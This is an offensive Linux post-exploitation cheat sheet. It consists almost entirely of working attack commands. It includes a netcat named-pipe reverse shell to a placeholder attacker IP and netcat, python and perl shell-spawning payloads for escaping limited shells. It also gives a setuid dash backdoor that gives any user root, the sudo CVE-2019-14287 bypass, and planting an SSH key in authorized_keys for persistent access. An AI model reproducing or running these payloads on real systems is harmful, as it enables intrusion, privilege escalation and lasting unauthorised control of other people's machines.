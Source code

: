 ```sh
mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc <ATTACKER IP> <PORT> 1>/tmp/backpipe
```

### Overcome limited shells 

#### Some payloads to overcome limited shells

```sh
ssh user@$ip nc $localip 4444 -e /bin/sh
python -c 'import pty; pty.spawn("/bin/sh")'
export TERM=linux
```

#### Bash

```sh
#### Bash
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh";
```

#### Perl

```sh
perl —e 'exec "/bin/sh";'
```

#### Dash

```sh
# /bin/dash is the only shell to keep the sticky bit, so if you run as root (included cron, or services running as root): 
install -mode 4755 /bin/dash /tmp/sh
# Then you will have a /tmp/sh that gives any user who calls it root !
```

### Abusing Sudo Rights (CVE 2019-14287)

https://cheatsheet.haax.fr/linux-systems/privilege-escalation/abusing_sudo_rights/

### Exploitable when a user have the following permissions (sudo -l)

```sh
(ALL, !root) ALL
```

### If you have a full TTY, you can exploit it like this
```sh
sudo -u#-1 /bin/bash
```

### If no TTY, you can restart SSH server and add your key
```sh
sudo /etc/init.d/ssh restart
echo 'ssh-rsa AAAA[...snip...]fd48as= root@kali-jms' > authorized_keys
sudo -u#-1 bash
```
